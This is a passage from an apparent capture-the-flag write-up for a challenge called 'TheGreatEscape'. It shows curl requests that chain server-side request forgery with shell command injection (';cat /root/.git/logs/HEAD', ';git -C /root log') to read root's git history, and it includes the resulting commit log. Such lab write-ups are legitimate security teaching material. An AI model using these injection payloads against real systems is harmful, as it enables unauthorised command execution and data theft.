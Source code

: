 <br>
<p>

- a3d30a7d0********5ff9316e3fb84434916dee8</p>

<br>

```bash
:~/TheGreatEscape# curl 'http://xx.xxx.xx.xxx/api/exif?url=http://api-dev-backup:8080/exif?url=;cat%20/root/.git/logs/HEAD'
An error occurred: File format could not be determined
                Retrieved Content
                ----------------------------------------
                An error occurred: File format could not be determined
               Retrieved Content
               ----------------------------------------
               curl: no URL specified!
curl: try 'curl --help' or 'curl --manual' for more information
0000000000000000000000000000000000000000 a3d30a7d0********5ff9316e3fb84434916dee8 Hydra <hydragyrum@example.com> 1609966299 +0000	commit (initial): Added the flag and dev notes
a3d30a7d0********5ff9316e3fb84434916dee8 4530ff7f56b215fa9fe76c4d7cc1319960c4e539 Hydra <hydragyrum@example.com> 1609966299 +0000	commit: Removed the flag and original dev note b/c Security
4530ff7f56b215fa9fe76c4d7cc1319960c4e539 5242825dfd6b96819f65d17a1c31a99fea4ffb6a Hydra <hydragyrum@example.com> 1610038138 +0000	commit: fixed the dev note
```

<br>
<p>

- a3d30a7d0********5ff9316e3fb84434916dee8<BR>
- Hydra, hydragyrum@example.com</p>

<br>

```bash
:~/TheGreatEscape# curl 'http://xx.xxx.xx.xxx/api/exif?url=http://api-dev-backup:8080/exif?url=;git%20-C%20/root%20log'
An error occurred: File format could not be determined
                Retrieved Content
                ----------------------------------------
                An error occurred: File format could not be determined
               Retrieved Content
               ----------------------------------------
               curl: no URL specified!
curl: try 'curl --help' or 'curl --manual' for more information
commit 5242825dfd6b96819f65d17a1c31a99fea4ffb6a
Author: Hydra <hydragyrum@example.com>
Date:   Thu Jan 7 16:48:58 2021 +0000

    fixed the dev note

commit 4530ff7f56b215fa9fe76c4d7cc1319960c4e539
Author: Hydra <hydragyrum@example.com>
Date:   Wed Jan 6 20:51:39 2021 +0000

    Removed the flag and original dev note b/c Security

commit a3d30a7d0********5ff9316e3fb84434916dee8
Author: Hydra <hydragyrum@example.com>
Date:   Wed Jan 6 20:51:39 2021 +0000

    Added the flag and dev notes
```

